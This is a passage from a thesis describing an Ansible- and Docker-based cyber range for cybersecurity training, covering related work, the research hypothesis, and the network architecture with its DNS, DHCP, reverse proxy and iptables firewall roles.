\empty & \textbf{IaC} & \textbf{Randomization} & \textbf{Local \& Cloud Deployments} & \textbf{Containerization} & \textbf{Enterprise-level Scenarios} & \textbf{Linux \& Windows Scenarios} & \textbf{Open-source} \\ 
\hline
\textit{CyExec} & \priority{50} & \priority{100} & \priority{100} & \priority{100} & \priority{50} & \priority{50} & \priority{0} \\  
\hline
\textit{Pandora} & \priority{0} & \priority{100} & \priority{50} & \priority{0} & \priority{0} & \priority{50} & \priority{0} \\
\hline
\textit{CyRIS/CyTrONE} & \priority{50} & \priority{100} & \priority{100} & \priority{0} & \priority{0} & \priority{50} & \priority{100} \\
\hline
\textit{NCR} & - & \priority{100} & \priority{50} & \priority{0} & \priority{0} & - & \priority{0} \\
\hline
\textit{SmallWorld}  & \priority{50} & \priority{0} & \priority{100} & \priority{0} & \priority{100} & \priority{100} & \priority{0} \\
\hline
\textit{Leaf}  & \priority{100} & \priority{100} & \priority{100} & \priority{0} & \priority{100} & \priority{0} & \priority{0} \\
\hline
\textit{KYPO}  & \priority{100} & \priority{0} & \priority{100} & \priority{100} & \priority{100} & \priority{100} & \priority{100} \\
\hline
\textit{CRACK} & \priority{50} & \priority{100} & \priority{50} & \priority{0} & \priority{100} & \priority{50} & \priority{100} \\
\hline
\textit{SEED Labs} & \priority{50} & \priority{0} & \priority{50} & \priority{50} & \priority{50} & \priority{50} & \priority{100} \\
\hline
\textit{Labtainers} & \priority{50} & \priority{100} & \priority{100} & \priority{50} & \priority{100} & \priority{50} & \priority{100} \\
\hline
\textit{CRATE} & - & \priority{100} & \priority{50} & \priority{0} & \priority{100} & \priority{50} & \priority{0} \\
\hline
\textit{DSP} & \priority{50} & \priority{0} & \priority{50} & \priority{100} & \priority{100} & \priority{50} & \priority{100} \\
\hline
\textit{SecGen} & \priority{100} & \priority{100} & \priority{50} & \priority{0} & \priority{100} & \priority{50} & \priority{100} \\
\hline
\textit{\textbf{\specialcell{Proposed\\Solution}}} & \priority{100} & \priority{100} & \priority{100} & \priority{100} & \priority{100} & \priority{100} & \priority{100} \\
\hline
\end{tabular}}
  \label{tab:comparison_cr}
\end{table}

Table \ref{tab:comparison_cr} (p. \pageref{tab:comparison_cr}) presents a high-level overview of the main features supported by some of the most relevant cyber ranges, finishing with the proposed solution's aim.

Several marks were given according to each cyber range. As a way to demystify some classifications, for the \textit{IaC} column, we considered half a circle as approaches that used customized descriptions to deploy scenarios or solutions only relying on Docker or Docker-compose without a standard tool, as some of the ones presented in Table \ref{tab:comparison_iac_tools} (p. \pageref{tab:comparison_iac_tools}); for the \textit{Randomization} column, we considered tools that provided some randomization of: traffic generation, network, system, and accounts' configurations or of the vulnerabilities present in the scenario as of a full circle. Regarding the \textit{Local \& Cloud Deployments} and \textit{Linux \& Windows Scenarios}, we considered half a circle for cases where only one of the features was present. About the \textit{Containerization} column, we considered half a circle for scenarios that combined containers and VMs in separate scenarios. Concerning the \textit{Enterprise-level Scenarios} column, we considered full circles as a network with a wide variety of services ranging from firewalls, internal networks, IDS, and mail servers, among others. At the same time, half-circles were intermediate representations of enterprise-level networks. Finally, the \textit{Open-source} column considers cyber range frameworks available to the general public.

Our framework addresses every column of Table \ref{tab:comparison_cr} (p. \pageref{tab:comparison_cr}), which is not achieved by any other framework. Even in cyber range frameworks such as \textit{CyExec}, which is quite complete in terms of the mentioned features, a possible idea would be to extend the development. Unfortunately, not all frameworks are open-source, and some lack community support. Instead, we opted to create a new framework with the functionalities we wanted, using the technology stack of our choice. With this idea in mind, Chapter \ref{chap:problem_statement} (p. \pageref{chap:problem_statement}) will further detail the problem to be solved.
\clearpage\phantom{}
\chapter{Problem Statement}\label{chap:problem_statement}

\minitoc

\section{Problem under Study} \label{sec:research_problem}

Cyber ranges play a crucial role in cybersecurity training and are widely recognized as valuable tools for developing and enhancing skills in the field. The benefits of cyber ranges include providing realistic simulations in controlled and secure environments that replicate real-world networks and attack scenarios, practical skills development related to critical thinking and problem-solving, and experiential learning because trainees experiment with different tools, techniques and strategies, test their effectiveness, and learn both from successes and failures. All these activities are performed in a risk-free environment, which does not pose any chance of causing damage to real systems or networks and help build a deeper understanding of the cybersecurity landscape, fostering the ability to adapt and respond to evolving threats. 

Several platforms can be used to improve skills in the cybersecurity fields. We have previously mentioned Hack The Box and TryHackMe, but many more businesses providing these services exist. Cybersecurity training is an important subject that companies, agencies and governments care about because knowledge gaps in such areas may put many citizens lifes in danger. The European Union, for instance, created an initiative called \textit{Cybersec4Europe}\footnote{\url{https://cybersec4europe.eu/}} which aims to strengthen cybersecurity research and innovation, encourage collaboration and knowledge sharing, addressing skill gaps, and enhancing overall preparedness in the field. 

From the literature review presented in Chapter \ref{chap:sota} old-case approach involve the use of high-cost infrastructure relying too much in Virtual Machines and physical hardware. Instead, container-based solutions are starting to emerge but still rely heavily on custom cyber range description files. Many of the studied cyber range frameworks pose scalability and expansibility issues related to the lack of modularity in the chosen design or due to the non-inclusion of Infrastructure as Code tools. The lack of community support and the small amount of open-sourced frameworks also seems to be an issue, which may be an evidence that some projects were suspended. Furthermore, many of the approached frameworks do not reference up-to-date vulnerabilities and attacks. Lastly, as far as how realistic a cyber range can be, some frameworks did not address this because they did not have a general network structure common to each scenario that could simulate an enterprise network. 

To address the issues presented in the literature review, the following research questions can define the problem under study:

\begin{enumerate}
    \item How to overcome the weaknesses present in the current \textit{state-of-the-art} on cyber ranges, namely high-cost deployment of infrastructure, custom description files that make scenario extensions harder, and lack of randomization? 
    \item How to develop lightweight scenarios with the complexity of an enterprise-level network without using old-case-driven approaches based on physical hardware and Virtual Machines?
    \item How to automatically deploy, provision, and configure cyber ranges in a scalable way?
    \item How to simplify the creation process of scenarios for the end-user?
\end{enumerate}

Having in mind these questions, the following hypothesis was considered:\\

\leftskip=1.25cm\rightskip=1.25cm

\textbf{H:} \textit{``Using an approach heavily relying upon DevOps, Infrastructure as Code and containerization, it is possible to automatically deploy and provision, in a cost-effective manner, a set of vulnerable enterprise-level scenarios, ensuring practical cybersecurity training.''}

\leftskip=0cm\rightskip=0cm

\section{Hypothesis Validation} \label{sec:hypothesis_validation}

To answer the hypothesis formed in Section \ref{sec:research_problem}, this work intends to develop a cyber range framework that builds upon the weaknesses of the presented projects in the \textit{state-of-the-art}, providing a unique solution based on IaC and containers. Moreover, we intend to allow both local and cloud deployments both running in a local computer or in a cloud instance. The latter provides greater security due to the security restrictions the cloud provider applies to isolate each virtual instance.  

To achieve such framework, we use IaC tools like Ansible to automate configuration and provisioning of the cyber range while thinking of future scenarios' expansion, which should be more straightforward, as commonly known technologies will be used. Using Docker containers we develop are able to lightweight complex networks with a wide variety of networks services. Using IaC, we avoid using a custom approach to each cyber range deployment. We must consider the dilemma of using Virtual Machines: on the one hand they cause significant overhead in terms of resource consumption; on the other hand, VMs allow us to explore a broader range of vulnerabilities, for instance, kernel-related ones. Still, we use them in the context of Windows-based scenarios, instead of just sticking with Linux-based scenarios, given our goal of simulating a wide range of scenario types that follow the concerns of today's cyber attacks. Then, we intend to address randomization by combining attack graphs consisting of different types of attacks on each scenario, as well as randomizing some network configurations, challenging the trainee by introducing different possibilities to a higher level of privilege. Lastly, we intend to create a mesh network with the machines relevant for the trainee to successfully solve the challenge.

To conclude this topic, cyber ranges are essential in the context of education and cybersecurity professionals as a way to significantly improve their skills. Trainees see themselves as forced to perform experiments with real-world environment simulations that will better prepare them for security incident situations. Having all this in mind, we argue that the above-presented hypothesis is \textbf{plausible}.

\section{Summary} \label{sec:problem_summary}

This chapter has drawn a line on where the \textit{state-of-the-art} research is and some of its issues. We recognize the fact that building cyber ranges capable of validating our hypothesis poses several challenges that will be addressed in Chapter \ref{chap:validation} which presents the actual work behind the hypothesis validation and how the project development took place. With this, the structure followed by this chapter started with the exploration of the problem under study, introduced in Section \ref{sec:research_problem}, along with the analysis of the literature review placed in Chapter \ref{chap:sota}. Section \ref{sec:hypothesis_validation} presents the scope and validation of the hypothesis, as well as the definition of the driving concept behind its validation.
\clearpage\phantom{}
\chapter{Validation \& Results}\label{chap:validation}

\minitoc

\section{Methodology} \label{sec:validation_methodology}

As a way to validate the stated hypothesis (\textit{cf.} Section \ref{sec:research_problem}, p. \pageref{sec:research_problem}), we have acted upon a thorough process that consists of the following phases:

\begin{enumerate}
    \item \textbf{IaC Tools in Cyber Range Construction}: The role of IaC tools in the context of cyber range construction. % Use Cases | Ansible | Docker 
    \item \textbf{Architecture}: Where details on how the scenario construction process was taken into account, as well as insights on the logic followed.% Ansible
    \item \textbf{Custom Scenarios}: From Linux to Windows-based scenarios, details on how they were developed will be presented and how they can be attacked.
    \item \textbf{Imported Scenarios}: The process of importing scenarios from previous CTF competitions and how they managed to fit in the previously developed scenario construction.
    \item \textbf{Scenario Extensibility}: Details on how new scenarios could be developed and the necessary changes to do so.
    \item \textbf{User Interface Panel}: Presentation of the UI responsible for managing scenarios' in a sort of a CTF-level style.
    \item \textbf{Cloud Deployment}: Insights on how the cloud deployment was taken into account using Microsoft Azure as the cloud provider.
    \item \textbf{Summary}: Final considerations on the Validation chapter.
\end{enumerate}


\section{IaC Tools in Cyber Range Construction} \label{sec:validation_iac_tools_in_cr_construction}

According to Masek \textit{et al.} \cite{unleashing_full_potential_of_ansible_ref} ``\textit{the goal of the IaC is to provide system administrators with the ability to manage knowledge and experiences of plenty of subsystems from one place instead of the traditional approach where each subsystem has its dedicated administrator}''. As in the case of this article, Ansible was the selected tool to simplify the orchestration and configuration management tasks related to our subject, as it gives the ability to create a set of YAML playbook files containing procedural instructions on how a target machine should be configured. Its flexibility in working both in Linux and Windows machines and how easy it is to deploy configurations were critical for choosing this tool.

Across the entire development, Ansible was the selected tool responsible for provisioning Docker containers. As Ansible works on a client-only topology, the Ansible application does not need to be installed in the containers. Therefore, Ansible is responsible for both the creation and the issuing of commands to these containers, and as a result, we build an enterprise-level network entirely made of Docker containers by simply issuing a command. The role of IaC is phenomenal, as the deployment of our network consists of snippets of code used for declaring how our infrastructure should be configured, which is different from the traditional programming concepts we are currently used to.

Lastly, in particular situations, Vagrant was used in order to create Windows-based scenarios. Essentially, the setup we built was a Windows Vagrant box running within a Linux Docker container, letting the trainee successfully explore Windows-based types of attacks. We wanted to keep consistency and create scenarios based on containers and not use a hybrid approach that used containers and VMs separately.

The engineering process, along with these tools, allowed us to obtain a set of cybersecurity training scenarios that can be run locally or remotely without needing an enormously complex infrastructure. More specifically, the lightweight containerization approach followed during the development allowed us to run complex scenarios with a distance of a command or click. With this, we are ready to move into the architectural details of the project.

\section{Architecture} \label{sec:validation_architecture}

The scenario construction process using Docker containers targeted enterprise-level networks. As such, corporate environments normally subdivide networks into three different main sections:

\begin{itemize}
    \item \textbf{External Network} refers to the public internet where machines are not controlled by the organization. As such, risk modeling activities should be taken into account in order to evaluate the risk and the probability specific threats and attack scenarios pose to the internals of the organization. With this, according to the organization's budget, decisions on which security measures to place in the company's network are considered and may include systems like Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), Firewalls, Antivirus, among others.
    \item \textbf{Internal Network} which contains the protected machines of an organization, such as internal databases and services only available to the company's employees and not to the general public.
    \item \textbf{Demilitarized Zone (DMZ)}, which is a network that protects the company's internal network and is targeted with untrustworthy traffic. It includes services available to the public and sits between the \textit{External Network} and the \textit{Internal Network}. It generally includes web servers, Domain Name System (DNS) servers, among others.
\end{itemize}

Our project focuses on these three distinct types of networks and considers several network services that we would typically see on enterprise networks.

The network architecture presented in Fig. \ref{fig:template_net} (p. \pageref{fig:template_net}) shows the services available in every Linux scenario, except for Windows-based scenarios, which slightly differ from this schema. As shown, Ansible appears as the tool responsible for configuring and provisioning the entire network.

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/example.pdf}
    \caption{Template Network Architecture.}
    \label{fig:template_net}
\end{figure}

\subsection{Ansible Architecture} \label{sec:ansible_structure}

Three different playbooks include all the developed scenarios. The first is explicitly used in Linux-based scenarios, representing most designed challenges. The second is used for the Windows Ransomware scenario, and the last for the Windows Active Directory (AD) scenario. On each playbook, the first step is to delete stale Docker containers from previous running scenario executions, as shown in Listing \ref{lst:ansible_removal_of_stale_containers} (p. \pageref{lst:ansible_removal_of_stale_containers}).

\clearpage

\begin{lstlisting}[language=yaml,caption=Removal of Stale Containers.,numbers=none,label={lst:ansible_removal_of_stale_containers}]
- hosts: localhost
  pre_tasks:
    - name: Remove Stale Containers
      ansible.builtin.include_tasks: teardown.yml
      loop: "{{ machines + vulnerables.machines }}"
      loop_control:
        loop_var: pc_info
\end{lstlisting}

Essentially, for every machine object passed, the contents of the \textit{teardown.yml} file are run. This uses the \textit{community.docker.docker\_container} module that is built-in in Ansible and removes the container under a given name.

\subsection{Ansible Groups and Inventory} \label{sec:ansible_groups_inventory}

% Inventory & Groups

Every machine belongs to a group, by default in Ansible, the \textit{all} group. Nonetheless, other groups and respective members were defined in the so-called Ansible Inventory, as presented in Listing \ref{lst:ansible_inventory} (p. \pageref{lst:ansible_inventory}).

\begin{lstlisting}[caption=High-level View of Ansible Inventory.,numbers=none,label={lst:ansible_inventory},literate={=}{$\rightarrow{}$}{1}]
[routers]
[firewalls]
[external]
[internal]
    = [pcs]
    = [dhcp_servers]
[dmz]
    = [dns_servers]
    = [custom_machines] # Scenario's vulnerable machines.
    = [reverse_proxies]
\end{lstlisting}

Each word represents a group of one or more machines. Each group may have several child groups defined by their name, as it happens above, or by machines, represented by their FQDN or IP address. We found groups themselves very useful when restricting specific tasks per group. Then, some groups contain child groups, as happens with the \textit{internal} and \textit{dmz} groups. In the case of Windows-based scenarios, another group called \textit{machine} is used and refers to the Docker container containing the Windows Vagrant box. Listing \ref{lst:ansible_inventory} (p. \pageref{lst:ansible_inventory}) is a very high-level view of how groups are organized within the project. A custom Python inventory script was created to allow the specification of custom variables across each group.

\subsection{Generic Scenario Variables} \label{sec:generic_scenario_variables}

For each playbook, a set of variables is always defined and corresponds to the generic structure of the network, as presented in Fig. \ref{fig:template_net} (p. \pageref{fig:template_net}). We start with the Docker images used across the workflow, their path, and the default image name in case none is specified.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Docker Images.,numbers=none,label={lst:ansible_vars_1}]
general:
  images:
    - name: kali_test_img
      path: ./attacker
    - name: base_image
      path: .
  default_container_image_name: base_image
\end{lstlisting}

As shown in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}), we use two Docker images: \textit{base\_image} and \textit{kali\_test\_img}. The former is an image derived from \textit{node:lts-alpine}\footnote{\url{https://hub.docker.com/_/node}} with some extra packages installed. The Alpine distribution was chosen due to its smaller size compared to other images. As a result, the \textit{base\_image} size is around 230MB. The \textit{kali\_test\_img} is an image derived from the official \textit{kalilinux/kali-rolling}\footnote{\url{https://hub.docker.com/r/kalilinux/kali-rolling}} Docker image. This image was extended to include the Xfce\footnote{\url{https://www.xfce.org/}} desktop environment, characterized by its low resource consumption and user-friendliness, as well as the \textit{Virtual Network Computing} (VNC) package, which allows screen sharing and remote control from another device, meaning the computer screen, keyboard, and mouse are mapped from an external device to the device installed with VNC. Accessing port 6080 on the target machine makes it possible to obtain remote control over it, which will be later used in the scenarios. This Kali Linux image is especially suited for offensive tasks, and here the only concern was providing the trainee with a broad range of tools he could use in a scenario. Therefore, the image's size is much larger (around 11GB) compared to the \textit{base\_image} used for common network services.

The second category of Ansible variables for machines belonging to the \textit{all} group can be seen in Appendix \ref{ap1:ansible_vars_docker_networks} (p. \pageref{ap1:ansible_vars_docker_networks}). This section concerns Docker networks, according to the structure mentioned in Section \ref{sec:validation_architecture} (p. \pageref{sec:validation_architecture}). The range of each network is defined, as well as the gateway address which points to the host machine. This is mandatory by Docker, as the host machine should always take part in each created virtual Docker network to forward packets from and to it. At last, the \textit{random\_byte} points to a random byte that changes across each scenario execution and confers some degree of randomization as, for each new scenario execution, the networks' IP addresses change. 

Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}) presents a typical example of the attacker machine's declaration. Several attributes are specified according to the logic of a Docker container. We start by its name, the Docker image it uses, possible volumes (anonymous, named, or bind mounts), the groups the container belongs to, and published ports, meaning ports mapped between the Docker container and the host machine. Then, we specify the networks the container belongs to, which can be several, as it happens, for instance, in routers. Lastly, we define where to find the DNS server. In this case, as the attacker machine is located in the external network, we redirect DNS queries to the edge router's network interface sitting in the external network so that these queries are later forwarded to the DNS server in the DMZ. This is achieved using \textit{iptables} rules. For machines located inside the corporate network, DNS queries are sent directly to the DNS server sitting in the DMZ network without the need for any type of forwarding by the edge router. It is also important to mention other attributes that are also possible to be specified, namely the \textit{devices} and \textit{privilege} attributes, all having the same meaning as understood by Docker. Although Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}) provided only an example of the attacker machine, other network services follow a similar logic.

\subsection{Custom Scenario Variables} \label{sec:custom_scenario_variables}

After presenting how the standard setup for each scenario is organized, Listing \ref{lst:ansible_vars_4} (p. \pageref{lst:ansible_vars_4}) shows the structure of the scenario's custom variables, starting with an example of a DNS configuration.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - DNS.,numbers=none,label={lst:ansible_vars_4}]
dns:
  - domain: example-domain.ui.com
    internal:
      machine: vuln_service
      network: dmz_net
    external:
      machine: edge_router
      network: external_net
\end{lstlisting}

Here, a domain named \textit{example-domain.ui.com} is presented along with \textit{internal} and \textit{external} specifications of it. This is related to two distinct DNS views that are defined. By ``internal view'' we refer to devices in the internal or DMZ networks; otherwise, they belong to the ``external view''. So, in the listing mentioned above, the \textit{example-domain.ui.com} domain points to the \textit{vuln\_service} container located in the DMZ whenever devices in the ``internal view'' look for this domain. Devices in the ``external view'' point to the external network interface of the edge router. This means resolved DNS requests made by external machines go through the edge router and are forwarded to the respective machine. 

Furthermore, the set of variables concerning custom machines' Docker images have a similar format to the one presented in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}). Still, the representation is a bit more flexible, allowing the specification of the name of the \textit{Dockerfile} and arguments to be read in the Docker image creation process.

Then, in the vulnerable machines section, the situation is quite the same as in Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}). The only exception is the inclusion of an attribute that allows the specification of variables for each machine.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Port Forwarding.,numbers=none,label={lst:ansible_vars_7}]
port_forwarding:
  - destination_port: 443
    to_machine: reverse_proxy1
    to_network: dmz_net
    to_port: 443
\end{lstlisting}

Then, Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}) references the port forwarding section especially relevant for external machines and how they can communicate with DMZ machines. The attributes meaning are as follows: 

\begin{itemize}
    \item \textit{destination\_port}: the incoming port on the edge router where packets will later be redirected.
    \item \textit{to\_machine}: the target machine to which packets reaching the \textit{destination\_port} will be forwarded to.
    \item \textit{to\_network}: the network where the target machine is placed.
    \item \textit{to\_port}: the destination port in the target machine where the edge router will redirect packets.
\end{itemize}

Some names may be misleading, such as \textit{destination\_port} and \textit{to\_port}. Still, they obey the convention used by \textit{iptables}.

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Setup Section.,numbers=none,label={lst:ansible_vars_8}]
setup:
    machines:
    -   name: localhost
        setup: "{{ playbook_dir }}/scenarios/chessrs/setup/"
    -   name: attackermachine
        setup: "{{ playbook_dir }}/scenarios/chessrs/attacker_machine_setup/*.j2"
\end{lstlisting}

Lastly, we have Listing \ref{lst:ansible_vars_8} (p. \pageref{lst:ansible_vars_8}), which provides information on where to find the setup instructions for the \textit{localhost} and attacker's machines.

\subsection{Ansible Roles \& Network Services} \label{sec:ansible_roles}

The structure followed by Ansible uses a feature called ``roles''. We use a different role for every milestone in the network configuration. Ansible allows defining specific variables and tasks for each role, making grouping an entire workflow into separate roles straightforward to reuse in the development cycle. In our folder structure, a directory represents a single \textit{role}. Inside it, specific tasks are defined. The following sections detail the tasks present for each role. 

\subsubsection{Base Role} \label{sec:ansible_base_role}

The \textit{base} role is responsible for the scenario's initial tasks:

\begin{itemize}
    \item Start the Docker service.
    \item Building the scenario's Docker images, as presented in Listing \ref{lst:ansible_vars_1} (p. \pageref{lst:ansible_vars_1}).
    \item Create the Docker networks, as presented in Appendix \ref{ap1:ansible_vars_docker_networks} (p. \pageref{ap1:ansible_vars_docker_networks}).
    \item Create generic scenario's Docker containers, as presented in Appendix \ref{ap1:ansible_vars_machine} (p. \pageref{ap1:ansible_vars_machine}).
    \item Assign each created container to one or more Ansible groups.
\end{itemize}

\subsubsection{DHCP Role} \label{sec:ansible_dhcp_role}

The \textit{DHCP} role configures the DHCP servers. At first, the \texttt{dhcp} package is installed. Then a template configuration file is created using Jinja2\footnote{\url{https://jinja.palletsprojects.com/en}} templates. At last, the \texttt{dhcp} service daemon is started.

Essentially, the DHCP lease is responsible for assigning an internal IP address with the last byte ranging from 64 to 127, pinpointing the router of the internal network as the gateway router, and updating the DNS server with the one placed in the DMZ network.

\subsubsection{Internal PCs Role} \label{sec:ansible_internal_pcs_role}

The \textit{internal PCs} role handles the behavior of machines inside the internal network. As such, it runs the following tasks:

\begin{itemize}
    \item Install the DHCP client package.
    \item Ask for a DHCP lease to the DHCP server.
    \item Removes the automatically assigned IP address by Docker so that its only IP address is the one stated by the DHCP server.
\end{itemize}

\subsubsection{Internal Role} \label{sec:ansible_internal_role}

The \textit{internal} role is destined for the internal machines and the DHCP server. It simply configures each device's default route as the internal router's interface in the internal network. Every time a default gateway or static route is configured across the Ansible setup, the \textit{iproute2} package, installed on each Docker image by default, is used. The \textit{iproute2} package allows controlling and monitoring various aspects of networking in the Linux kernel, namely routing, tunnels, network interfaces, and traffic control, among others.

\subsubsection{DNS Role} \label{sec:ansible_dns_role}

The \textit{DNS} role is somewhat of a more complex role and is destined for DNS servers. It is responsible for running the following actions:

\begin{itemize}
    \item Install the \texttt{bind} DNS server package.
    \item Copy the necessary template DNS configuration files to the DNS server container.
    \item Start the \texttt{named} DNS service.
\end{itemize}

Two Access Control Lists (ACLs) are created regarding the DNS configuration files. The \textit{internal} deals with which machines stand in the internal and DMZ networks, and the \textit{external} points to every other machine that is not part of the \textit{internal} ACL, meaning external machines only. Afterward, a distinction on the IP addresses retrieved by resolved domains for internal and external machines is made, according to what was presented in Listing \ref{lst:ansible_vars_4} (p. \pageref{lst:ansible_vars_4}). The actual configuration file is presented in Appendix \ref{ap1:ansible_vars_dns_template_conf} (p. \pageref{ap1:ansible_vars_dns_template_conf}). Notice the use of Jinja2 templating. 

Essentially, we create an ACL named ``exclude'' which refers to the IP address of the edge router because it performs NAT over specific packets coming from outside the organization's network. Then, we create the ``internal'' and ``external'' views, as mentioned above, which direct requests to different DNS zones according to the mapped domain. If the DNS query does not match any internal domain, the request is forwarded to the \texttt{8.8.8.8} Google's public DNS server.

\subsubsection{Router Role} \label{sec:ansible_router_role}

The next role leads us to the router's configuration steps. Here we distinguish the configuration of the internal router and the one of the edge router. 

The internal router takes a single action to configure its default gateway with the edge router's DMZ network interface, as this is the gateway that provides internet access to the network.

The edge router's task is to provide NAT to packets whose source matches the internal or DMZ networks. This is accomplished using the \texttt{MASQUERADE} jump of \textit{iptables}. Lastly, a static route is added, specifying that packets destined for the internal network should be directed to the DMZ interface of the internal router.

\subsubsection{Custom Machines Role} \label{sec:ansible_custom_machines_role}

The \textit{custom machines} role is quite similar to the \textit{base} role except that it performs Docker image and container creation on the set of specific machines required by a scenario instead of the generic ones. Although both roles slightly differ, using just one role with some small conditionals would be possible. Still, the adopted approach allows more accessible future updates.

\subsubsection{DMZ Role} \label{sec:ansible_dmz_role}

The \textit{DMZ} role is also quite simple. It targets DNS servers, custom machines, and reverse proxies sitting in the DMZ network. Two tasks are associated with this role: the static configuration route to the internal network, which directs packets to the internal router's interface on the DMZ network, and the configuration of the default gateway to access the internet, which points to the edge router's DMZ network interface.

\subsubsection{Reverse Proxies Role} \label{sec:ansible_reverse_proxies_role}

The \textit{reverse proxies} role, as the name suggests, targets the reverse proxies present in the network. These services sit in front of the scenario's custom machines and forward client requests to those machines. Essentially, they allow establishing HTTPS connections with the client device, handling all the SSL certificate-related tasks from the TLS connection, and talking with the destination machine in the back of the reverse proxy using an HTTP connection. In simple words, it works as a middle agent.

The variables defined for the reverse proxy include a domain and information on the target machine. We provide a piece of the NGINX\footnote{\url{https://www.nginx.com/}} configuration file at Appendix \ref{ap1:ansible_vars_reverse_proxy_template_conf} (p. \pageref{ap1:ansible_vars_reverse_proxy_template_conf}). Again, it allows the configuration of several domains specified using Jinja2 templates. The reverse proxy continuously listens for connections at port 443, and according to the selected domain, it forwards the traffic to the appropriate target. If requests are made to port 80, they are redirected to port 443, meaning the HTTP connection gets upgraded to HTTPS.

After copying the above-mentioned template configuration file to the reverse proxy, we must deal with SSL certificates. For this, we first created a Certificate Authority (CA) by defining an \texttt{openssl.cnf} file and the necessary folder structure, as well as generating the public and private keys associated with the CA.

The \textit{reverse proxies} role generates a Certificate Signing Request (CSR), a specially formatted encrypted message sent from an SSL digital certificate applicant to a CA. The CA then takes the CSR and generates a public-key certificate signed by itself. Then, it removes the password from the private key associated with the newly issued public-key certificate and copies both files to the reverse proxy container. At last, it starts the NGINX service with the loaded configuration. 

One crucial aspect of this configuration is the signing of public-key certificates by the CA. This entails that the created root CA has to be trusted by machines that will eventually access the domain linked to the digital certificate, in this case, the attacker machine. To achieve such a setup, the CA's public-key certificate is loaded as trusted in the attacker machine both system-wide and in Firefox, as it will be later explained.

\subsubsection{Firewalls Role} \label{sec:ansible_firewalls_role}

The \textit{firewall} role focuses on the two existing routers which incorporate a firewall. During this explanation, we will refer to the internal router's firewall as the internal firewall and to the edge router's firewall, we will refer to it as the external firewall. 

Starting with the internal firewall, the role performs the following \textit{iptables} actions:

\begin{itemize}
    \item Set the forward chain's default policy to drop, meaning the internal router does not forward traffic by default.
    \item Already established connections or connections previously associated with existing ones to the internal network are accepted.
    \item New, previously established, or related connections from the internal network are also accepted.
\end{itemize}

Concerning the external firewall, this role performs the following \textit{iptables} actions:

\begin{itemize}
    \item \textbf{Generic Rules:}
        \begin{itemize}
            \item Set the forward chain's default policy to drop, meaning the external router does not forward traffic by default.
            \item Established connections or connections previously associated with existing ones to the internal or DMZ networks are accepted.
            \item Packets from the internal or DMZ networks are also accepted in the forward chain.
        \end{itemize}
    \item \textbf{DNS Rules:}
        \begin{itemize}
            \item Set a ``prerouting'' chain rule in which TCP and UDP traffic reaching the edge router's port 53 will have its destination changed (DNAT) to the real DNS server sitting in the DMZ network and destination port 53.
            \item Forwarding traffic to the DNS server is accepted.
            \item A ``postrouting'' NAT rule is added to traffic whose destination is the DNS server.
        \end{itemize}
    \item \textbf{Port Forwarding Rules:}
        \begin{itemize}
            \item Allow TCP and UDP forwarding according to the information provided in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}). We consider the target machine and the target port number in this regard.
